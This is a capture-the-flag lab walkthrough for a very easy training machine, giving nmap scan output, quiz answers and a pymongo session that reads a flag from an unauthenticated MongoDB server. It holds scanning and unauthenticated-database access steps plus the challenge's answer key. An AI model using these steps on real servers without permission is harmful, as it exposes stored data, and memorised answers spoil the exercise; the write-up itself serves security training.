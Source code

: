 # Dancing

- **Category**: Starting Point - Tier 0
- **Difficulty**: Very Easy
- **Tags**: MongoDB, Web, Databases, Reconnaissance, Misconfiguration, Anonymous/Guest Access - **Tools**: nmap
- Tools: nmap, ipython+pymongo or mongodb


# Walkthrough

- [MongoDB Command Reference](https://www.mongodb.com/docs/manual/reference/command/)

## Task 1: How many TCP ports are open on the machine?

```bash
> nmap -p- -sT --min-rate 3000 10.129.58.99
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-04 18:53 AEST
Nmap scan report for 10.129.58.99
Host is up (0.23s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
27017/tcp open  mongod
```

> **Answer**: 2

## Task 2: Which service is running on port 27017 of the remote host?

```bash
> nmap -sV -p 27017 10.129.58.99
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-04 18:55 AEST
Nmap scan report for 10.129.58.99
Host is up (0.28s latency).

PORT      STATE SERVICE VERSION
27017/tcp open  mongodb MongoDB 3.6.8
```

> **Answer**: mongodb 3.6.8

## Task 3: What type of database is MongoDB? (Choose: SQL or NoSQL)

- **Explanation**: https://www.mongodb.com/nosql-explained

> **Answer**: NoSQL

## Task 4: What is the command name for the Mongo shell that is installed with the mongodb-clients package?

> **Answer**: mongo

## Task 5: What is the command used for listing all the databases present on the MongoDB server? (No need to include a trailing ;)

> **Answer**: show databases

## Task 6: What is the command used for listing out the collections in a database? (No need to include a trailing ;)

> **Answer**: show collections

## Task 7: What is the command used for dumping the content of all the documents within the collection named flag in a format that is easy to read?

> **Answer**: db.flag.find().pretty()

## Submit Flag

We can use the lightweight `pymongo` python package. You can install this and use with `ipython` for a lightweight MongoDB client.
The advantage of utilising the python package is the ease in which we can automate it to suit our needs.
Howevr, in this case I've just run through the commands one-by-one to demonstrate the process:

```bash
> python3 -m pip install pymongo ipython
> ipython
In [1]: from pymongo import MongoClient

In [2]: client = MongoClient('10.129.58.99', 27017)

In [3]: print(client.list_database_names())
['admin', 'config', 'local', 'sensitive_information', 'users']

In [4]: database = client.admin

In [5]: database.list_collection_names()
Out[5]: ['system.version']

In [6]: database = client.sensitive_information

In [7]: database.list_collection_names()
Out[7]: ['flag']

In [8]: [print(x) for x in database['flag'].find()]
{'_id': ObjectId('630e3dbcb82540ebbd1748c5'), 'flag': '1b6e6fb359e7c40241b6d431427ba6ea'}
```

> **Answer**: 1b6e6fb359e7c40241b6d431427ba6ea
